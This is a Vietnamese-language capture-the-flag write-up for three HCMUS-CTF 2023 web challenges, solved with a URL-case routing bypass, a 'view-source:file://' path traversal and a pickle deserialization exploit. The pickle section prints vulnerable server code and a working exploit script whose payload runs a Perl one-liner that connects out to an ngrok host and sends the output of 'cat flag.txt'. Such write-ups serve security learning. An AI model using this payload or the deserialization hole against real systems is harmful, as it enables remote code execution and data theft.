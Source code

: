 # HCMUS-CTF2023-writeup
# WEB
### Cute Quote

App.js :
```js
const express = require('express')
const app = express()
const port = 3000

app.use(express.json())
app.use(express.static('css'))

app.get('/', (req, res) => {
  res.sendFile('./index.html', { root: __dirname })
})

const quotes = ['Insanity: doing the same thing expecting different results', '{{7*7}}', '<?php system("whoami"); ?>', '42 is the Answer to the Ultimate Question of Life, the Universe, and Everything']
app.get('/api/public/quote', (req, res) => {
  let quote = quotes[Math.floor(Math.random() * quotes.length)]
  res.send(quote)
})

app.get('/api/public/fake', (req, res) => {
  res.send("HMCSU-CFT{fake_flag}")
})

const flag = process.env.FLAG || "HCMUS-CTF{real_flag}"
app.get('/api/private/flag', (req, res) => {
  res.send(flag)
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
}
```

- Nhìn sơ qua source code thì đây là một chall viết bằng Express của NodeJS và server được chạy bằng Nginx.
- Có 3 đường dẫn ta cần quan tâm tới là ```/api/public/fake``` dẫn đến fake flag, ```/api/public/quote``` dẫn đến các câu quote được lưu sẵn và cuối cùng là ```/api/private/flag``` dẫn đến flag.
- Tuy nhiên chúng ta không thể truy cập để ```/api/private/flag``` qua cách thông thường.
- Để có thể truy cập, ta sẽ lợi dụng việc sử lý URL của Nginx và Express để có thể đọc flag.
- Đây là URL của mình: ```urlchall/Api/private/flag```
- Flag ```HCMUS-CTF{where_nginx_meet_express!}```
### Safe Proxy

  ![image](https://user-images.githubusercontent.com/89735990/236755727-7eca3e63-61ea-4823-876b-931e9711136d.png)

- Đây là một chall có tag easy nhưng mình tốn khá nhiều thời gian cho nó.
- Trang web có 3 đường dẫn đến các info khác nhau.

  ![image](https://user-images.githubusercontent.com/89735990/236756363-d4ab4210-0eb8-477c-81b7-19cc4a6059d6.png)


- Nhưng khi click thử thì mình không thể vào được do một lỗi gì đó ở User Agent.
- Do không có source code nên mình cũng dám chắc lỗi nằm ở đâu,Flag nằm ở đâu, cũng như khó xác định được hướng làm bài.
- Nhưng sau khi btc gửi hint cũng như một số thắc mắc của người chơi thì mình đã thử dùng phương pháp path traversal

  ![image](https://user-images.githubusercontent.com/89735990/236756803-5cf00b87-67ad-400e-ba3d-8589ecf14d3c.png)

  ![image](https://user-images.githubusercontent.com/89735990/236756877-689cb4bb-dc51-4455-ad4c-3524036f5446.png)
  
- Mình đã thử với sử dụng cách URI Scheme khác và mình nhận ra có thể dùng ```view-source:file://``` để truyền payload path traversal vào.

  ![image](https://user-images.githubusercontent.com/89735990/236757691-f10082a4-21fe-4a2a-884d-a06f3396d223.png)

- FLag : ```HCMUS-CTF{browser_scheme_is_interesting}```
### Pickle Trouble
Server.py:
```py
import pandas as pd
import io
import time
import threading
import socketserver
import sys
from io import StringIO
import secrets
import os
import numpy as np

FLAG_FILE = "flag.txt"
PORT = int(os.getenv("APP_PORT"))
HOST = "0.0.0.0"

original_stdout = sys.stdout

class Service(socketserver.BaseRequestHandler):
    def handle(self):
        captured_output = StringIO()
        sys.stdout = captured_output
        self.flag = self.get_flag()
        
        token = secrets.token_bytes(16)
        
        self.send(b"Gimme your pickle data size (send as byte string)\n")
        data_size = int(self.request.recv(64).decode())
        
        self.send(b"Gimme your pickle data frame (raw bytes)\n")
        pickle_data = self.receive(data_size)
        df = pd.read_pickle(io.BytesIO(pickle_data))
        
        try:
            if bytes(np.random.choice(df["x"], size=16)) == token:
                print(self.flag)
            else:
                raise Exception("Oh no!")
        except Exception as e:
            print("Oops, you missed it!")
            print(e)
        
        self.send(captured_output.getvalue().encode())
        sys.stdout = original_stdout
        
            
    def get_flag(self):
        with open(FLAG_FILE, 'rb') as f:
            return f.readline()
    
    def send(self, s: str):
        self.request.sendall(s.encode("utf-8"))
        
    def send(self, b: bytes):
        self.request.sendall(b)

    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
    
class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass

def main():
    service = Service
    server = ThreadedService((HOST, PORT), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()

    print("Server started on " + str(server.server_address) + "!")
    # Now let the main thread just wait...
    while True:
        time.sleep(10)
        
if __name__ == "__main__":
    main()
```
- Đọc sơ qua code mình phát hiện được rằng server không hề kiểm tra user input mà sẽ dùng trực tiếp để deserialied.
- Từ đó ta có thể lợi dụng điều này để có thể truyền input vào và get flag.
```py
    def receive(self, b = 1024):
        data = b""
        while len(data) != b:
            data += self.request.recv(256)
        return data
```
- Hàm recive bắt buộc phải nhận đúng 256 byte nếu không sẽ bị lỗi.
- Ý tưởng của mình ngrok để dựng lên một TCP server rồi dùng perl để mở lại stdin stdout stderr và ```cat flag.txt```
```py
import pickle
import base64
import os
import pandas

#r = remote("127.0.0.1", 4135)
r = remote(
    "pickle-trouble-0d7cddd74709c50c.chall.ctf.blackpinker.com", 443, ssl=True)


class RCE:
    def __reduce__(self):
        cmd = 'perl -e \'use Socket;'
        cmd += "$i='0.tcp.ap.ngrok.io'; $p=10151;"
        cmd += "socket(s, PF_INET, SOCK_STREAM, getprotobyname('tcp'));"
        cmd += "if(connect(s,sockaddr_in($p, inet_aton($i))))"
        cmd += "{open(STDIN, '>&s');open(STDOUT,'>&s'); open(STDERR, '>&s'); exec('cat flag.txt');};\"
        cmd = cmd.ljust(256, 'S')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    r.recvuntil(b"byte string)\n")
    r.sendline(b'256')
    r.recvuntil(b'(raw bytes)\n')
    r.sendline(pickled)
    r.interactive()
    ```
  Flag : ```HCMUS-CTF{S||\/|pL3_p1cKlE_ExpL01t-Huh}```

